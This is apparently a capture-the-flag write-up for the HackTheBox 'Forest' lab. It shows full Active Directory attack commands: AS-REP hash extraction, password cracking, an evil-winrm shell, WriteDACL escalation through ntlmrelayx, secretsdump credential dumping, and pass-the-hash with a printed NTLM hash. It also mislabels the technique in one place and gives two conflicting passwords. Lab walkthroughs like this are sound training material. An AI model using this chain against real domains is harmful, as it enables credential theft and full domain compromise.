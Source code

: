 ```yaml
---
title: "Forest (HackTheBox)"
date: 2020-01-22T14:55:09-05:00
draft: false
description: "Leveraging WriteDACL to Gain Domain Administrator Privileges in Active Directory"
---
```


Leveraging WriteDACL to Gain Domain Administrator Privileges in Active Directory  

# Host Information  

IP: 10.10.10.161  
Difficulty: easy  

# Service Enumeration  

```bash
enum4linux -a 10.10.10.161  | tee enum4linux-output
```  

>[+] Getting domain group memberships:
Group 'Domain Controllers' (RID: 516) has member: HTB\FOREST$
Group 'Privileged IT Accounts' (RID: 1149) has member: HTB\Service Accounts
Group 'Group Policy Creator Owners' (RID: 520) has member: HTB\Administrator
Group 'Domain Users' (RID: 513) has member: HTB\Administrator
Group 'Domain Users' (RID: 513) has member: HTB\DefaultAccount
Group 'Domain Users' (RID: 513) has member: HTB\krbtgt
Group 'Domain Users' (RID: 513) has member: HTB\$331000-VK4ADACQNUCA
Group 'Domain Users' (RID: 513) has member: HTB\SM_2c8eef0a09b545acb
Group 'Domain Users' (RID: 513) has member: HTB\SM_ca8c2ed5bdab4dc9b
Group 'Domain Users' (RID: 513) has member: HTB\SM_75a538d3025e4db9a
Group 'Domain Users' (RID: 513) has member: HTB\SM_681f53d4942840e18
Group 'Domain Users' (RID: 513) has member: HTB\SM_1b41c9286325456bb
Group 'Domain Users' (RID: 513) has member: HTB\SM_9b69f1b9d2cc45549
Group 'Domain Users' (RID: 513) has member: HTB\SM_7c96b981967141ebb
Group 'Domain Users' (RID: 513) has member: HTB\SM_c75ee099d0a64c91b
Group 'Domain Users' (RID: 513) has member: HTB\SM_1ffab36a2f5f479cb
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxc3d7722
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxfc9daad
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxc0a90c9
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox670628e
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox968e74d
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox6ded678
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox83d6781
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxfd87238
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxb01ac64
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox7108a4e
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox0659cc1
Group 'Domain Users' (RID: 513) has member: HTB\sebastien  
Group 'Domain Users' (RID: 513) has member: HTB\lucinda  
Group 'Domain Users' (RID: 513) has member: HTB\svc-alfresco  
Group 'Domain Users' (RID: 513) has member: HTB\andy  
Group 'Domain Users' (RID: 513) has member: HTB\mark  
Group 'Domain Users' (RID: 513) has member: HTB\santi  
Group 'Domain Admins' (RID: 512) has member: HTB\Administrator  
Group 'Exchange Servers' (RID: 1118) has member: HTB\EXCH01$  
Group 'Exchange Servers' (RID: 1118) has member: HTB\$D31000-NSEL5BRJ63V7  
Group 'Domain Computers' (RID: 515) has member: HTB\EXCH01$  
Group 'Domain Guests' (RID: 514) has member: HTB\Guest  
Group 'Schema Admins' (RID: 518) has member: HTB\Administrator  
Group 'Managed Availability Servers' (RID: 1120) has member: HTB\EXCH01$  
Group 'Managed Availability Servers' (RID: 1120) has member: HTB\Exchange Servers  
Group '$D31000-NSEL5BRJ63V7' (RID: 1133) has member: HTB\EXCH01$  
Group 'Exchange Windows Permissions' (RID: 1121) has member: HTB\Exchange Trusted Subsystem  
Group 'Service Accounts' (RID: 1148) has member: HTB\svc-alfresco  
Group 'Exchange Trusted Subsystem' (RID: 1119) has member: HTB\EXCH01$  
Group 'Enterprise Admins' (RID: 519) has member: HTB\Administrator  
Group 'Organization Management' (RID: 1104) has member: HTB\Administrator  

If we used tee in the above command and saved the output in **enum4linux-output** we can get a list of the domain users:  

```bash
cat enum4linux-output | grep "Domain Users" | cut -d "\\" -f 2 > domain-users  
```  

Great now that we have a list of domain-users we can check and see if any of them are Kerberoastable.

> Service Principal Names (SPNs) are used by Windows to identify which service account is used to encrypt a Ticket Granting Service ticket. There are host-based SPNs that are linked to computer accounts and there are Domain User linked SPNs. If an SPN is registered for a domain user account, the NT hash of a domain-joined users password will be used to encrypt the TGS. This is important because when the domain controller creates the TGS, it does not check if the requesting user is authorized to make the request.

Reference: https://www.scip.ch/en/?labs.20181011  

We can therefore pass the Domain Controller our curated list of domain users to check if any of them can request TGS for "free". Then we can try to crack their NT hash offline.  

```bash
./GetNPUsers.py htb.local/ -no-pass -usersfile /root/Desktop/htb/forest/domain-users
```

Boom! Impacket dumps the hash of the svc-alfresco service account. Save the password hash in a text file by itself and we can crack it with John.  

```bash
john alfreso-hash --wordlist=/usr/share/wordlists/rockyou.txt
```  

svc-alfresco:s3rvice  

We can use evil-winrm to open a command prompt on the target:  

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```  

Since this is a domain controller and we have a domain-user / service account shell, we can enumerate our domain permissions manually, or more simply using BloodHound. 

[BloodHound GitHub](https://github.com/BloodHoundAD/BloodHound)  

BloodHound is dope and immediately tells us that we have writeDACL permission. This privilege essentially means that we have the ability to modify the permissions of users in the Domain; cool, can we just elevate ourselves? YEP!  

First we move our user into the Exchange Windows Permission group, then we authentication to a local NTLMRelayx.py service that is provided with Impacket, and then ntlmrelayx.py does the heavy lifting for us.  

startup our local ntlmrelayx:  

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -t ldap://htb.local --escalate-user svc-alfresco
```

In our evil-winrm shell we execute:  

> net group "Exchange Windows Permission" svc-alfresco /DOMAIN

Keep the evil-winrm shell active since the permissions reset when we relog as svc-alfresco.

We just have to provide ntlmrelayx our credentials now; the way this is done is a bit funky since we can't provide them with a command-line switch we have to hit it from our localhost via browser:    

```http://localhost/   
username: svc-alfresco
password: s3cret
```  

ntlmrelayx authenticates using the credentials we provided, it tells us to use secretsdump so lets give that a shot.  

```bash
./secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161
```  

Since we can now change the ACL, ntlmrelay puts our user into the Domain Administrators group and secretsdump.py dumps hashes out of memory. Now we can pass-the-hash to authenticate in as the Administrator account and read root.txt:  

```bash
python wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161
```

